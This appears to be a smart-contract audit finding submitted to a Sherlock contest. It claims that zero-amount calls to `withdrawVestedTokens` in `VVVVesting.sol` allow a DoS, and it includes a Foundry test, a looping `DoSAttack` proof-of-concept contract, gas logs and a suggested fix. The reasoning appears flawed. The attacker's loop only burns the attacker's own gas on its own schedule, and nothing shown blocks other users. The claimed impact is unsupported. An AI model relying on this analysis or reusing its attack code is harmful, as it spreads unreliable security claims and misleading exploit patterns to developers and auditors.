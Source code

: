 Lone Emerald Ape

high

# `VVVVesting.sol::withdrawVestedTokens` doesn't implement an minimum value to withdraw, leading to DoS Attacks

## Summary
`VVVVesting.sol` doesn't implement a minimum value withdraw, and can receive tons of withdraw calls with zero value. Although an attacker can force multiple calls pushing the gas price up and turning the withdrawal process too expensive.
If someone tries to withdraw an amount, it will pay unaffordable amounts, leading to a DoS.

## Vulnerability Detail

<details>
<summary>See the code below</summary>

```solidity
    function withdrawVestedTokens(uint128 _tokenAmountToWithdraw, address _tokenDestination, uint256 _vestingScheduleIndex) external {
        VestingSchedule[] storage vestingSchedules = userVestingSchedules[msg.sender];

        if (_vestingScheduleIndex >= vestingSchedules.length) {
            revert InvalidScheduleIndex();
        }

        VestingSchedule storage vestingSchedule = vestingSchedules[_vestingScheduleIndex];

        if (_tokenAmountToWithdraw > getVestedAmount(msg.sender, _vestingScheduleIndex) - vestingSchedule.tokenAmountWithdrawn) {
            revert AmountIsGreaterThanWithdrawable();
        }

@> vestingSchedule.tokenAmountWithdrawn += _tokenAmountToWithdraw;

@> VVVToken.safeTransfer(_tokenDestination, _tokenAmountToWithdraw);

        emit VestedTokenWithdrawal(
            msg.sender,
            _tokenDestination,
            _tokenAmountToWithdraw,
            _vestingScheduleIndex
        );

        emit SetVestingSchedule(
            msg.sender,
            _vestingScheduleIndex,
            vestingSchedule.tokensToVestAtStart,
            vestingSchedule.tokensToVestAfterFirstInterval,
            vestingSchedule.tokenAmountWithdrawn,
            vestingSchedule.scheduleStartTime,
            vestingSchedule.cliffEndTime,
            vestingSchedule.intervalLength,
            vestingSchedule.maxIntervals,
            vestingSchedule.growthRateProportion
        );
    }
```

</details>

- You can also simulate the attack by adding the code below to `VVVVesting.unit.t.sol`.

<details>
<summary> Add the function and the attack contract to `VVVVesting.unit.t.sol` </summary>

```solidity
function test_ifAnAttackerCanPerformAndDoSAttack() public {
        DoSAttack dos = new DoSAttack(address(VVVVestingInstance));

        uint256 vestingScheduleIndex = 0;
        uint88 tokensToVestAtStart = 1_000 * 1e18; //1k tokens
        uint120 tokensToVestAfterFirstInterval = 100 * 1e18; //100 tokens
        uint128 amountWithdrawn = 0;
        uint32 scheduleStartTime = uint32(block.timestamp + 60 * 60 * 24 * 2); //2 days from now
        uint32 cliffEndTime = scheduleStartTime + 60 * 60 * 24 * 365; //1 year from scheduleStartTime
        uint32 intervalLength = 60 * 60 * 6 * 365; //3 months
        uint16 maxIntervals = 100;
        uint64 growthRateProportion = 0;
        

        setVestingScheduleFromManager(
            address(dos),
            vestingScheduleIndex,
            tokensToVestAtStart,
            tokensToVestAfterFirstInterval,
            amountWithdrawn,
            scheduleStartTime,
            cliffEndTime,
            intervalLength,
            maxIntervals,
            growthRateProportion
        );

        advanceBlockNumberAndTimestampInBlocks((maxIntervals * intervalLength) / 12 / 2);

        uint128 vestedAmount = uint128(
            VVVVestingInstance.getVestedAmount(address(dos), vestingScheduleIndex)
        );
        uint256 vestingContractBalanceBeforeWithdraw = VVVTokenInstance.balanceOf(
            address(VVVVestingInstance)
        );

        vm.prank(address(dos));

        uint256 gasOneBeforeDoS = gasleft();
        VVVVestingInstance.withdrawVestedTokens(1000, address(dos), 0);
        uint256 gasTwoBeforeDoS = gasleft();

        //=================================== PART TWO
    
        setVestingScheduleFromManager(
            address(dos),
            1,
            1_000 * 1e18,
            1_00 * 1e18,
            0,
            uint32(block.timestamp + 60 * 60 * 24 * 2),
            (uint32(block.timestamp + 60 * 60 * 24 * 2)) + (60 * 60 * 24 * 365),
            60 * 60 * 6 * 365,
            100,
            0
        );

        advanceBlockNumberAndTimestampInBlocks((100 * (60 * 60 * 6 * 365)) / 12 / 2);

        uint128 secondVestedAmount = uint128(
            VVVVestingInstance.getVestedAmount(address(dos), 1)
        );
        uint256 secondVestingContractBalanceBeforeWithdraw = VVVTokenInstance.balanceOf(
            address(VVVVestingInstance)
        );

        
        uint256 gasOneAfterDoS = gasleft();
        
        dos.DoS();

        uint256 gasTwoAfterDoS = gasleft();
        console2.log(gasOneBeforeDoS - gasTwoBeforeDoS);
        console2.log(gasOneAfterDoS - gasTwoAfterDoS);
    }
```

```solidity

contract DoSAttack{
    VVVVesting immutable public vvv;

    constructor(address _vvv){
        vvv = VVVVesting(_vvv);
    }

    function DoS() public {
        for(uint256 i ; i < 200; ++i){
            
            if(i == 100){
                vvv.withdrawVestedTokens(1, address(this), 0);
            }else{
                vvv.withdrawVestedTokens(0, address(this), 0);                
            }

        }
    }
}
```

</details>

## Impact
The allowance to enter zero as an amount turns the withdrawal process into an inifit attack blocking everyone else out. Nobody will be able to withdraw the vested amount.

- Regular call
```solidity
console::log(39774 [3.977e4]) [staticcall]
    │   └─ ← ()
```

- Contract under attack

```solidity
    ├─ [0] console::log(2596880 [2.596e6])
```

## Code Snippet
https://github.com/sherlock-audit/2024-03-vvv-vesting-staking/blob/main/vvv-platform-smart-contracts/contracts/vesting/VVVVesting.sol#L142-L185

## Tool used
- Manual Review
- Foundry / Anvil

## Recommendation
- Require a minimal amount to be withdrawn in each call.

<details>
<summary>See an example below</summary>

```diff

    error InvalidAmount();
    function withdrawVestedTokens(uint128 _tokenAmountToWithdraw, address _tokenDestination, uint256 _vestingScheduleIndex) external {
        VestingSchedule[] storage vestingSchedules = userVestingSchedules[msg.sender];

+      if (_tokenAmountToWithdraw < 1 ether) {
+         revert InvalidAmount();
+      }

        if (_vestingScheduleIndex >= vestingSchedules.length) {
            revert InvalidScheduleIndex();
        }

        VestingSchedule storage vestingSchedule = vestingSchedules[_vestingScheduleIndex];

        if (_tokenAmountToWithdraw > getVestedAmount(msg.sender, _vestingScheduleIndex) - vestingSchedule.tokenAmountWithdrawn) {
            revert AmountIsGreaterThanWithdrawable();
        }

        vestingSchedule.tokenAmountWithdrawn += _tokenAmountToWithdraw;

        VVVToken.safeTransfer(_tokenDestination, _tokenAmountToWithdraw);

        emit VestedTokenWithdrawal(
            msg.sender,
            _tokenDestination,
            _tokenAmountToWithdraw,
            _vestingScheduleIndex
        );

        emit SetVestingSchedule(
            msg.sender,
            _vestingScheduleIndex,
            vestingSchedule.tokensToVestAtStart,
            vestingSchedule.tokensToVestAfterFirstInterval,
            vestingSchedule.tokenAmountWithdrawn,
            vestingSchedule.scheduleStartTime,
            vestingSchedule.cliffEndTime,
            vestingSchedule.intervalLength,
            vestingSchedule.maxIntervals,
            vestingSchedule.growthRateProportion
        );
    }

```

</details>
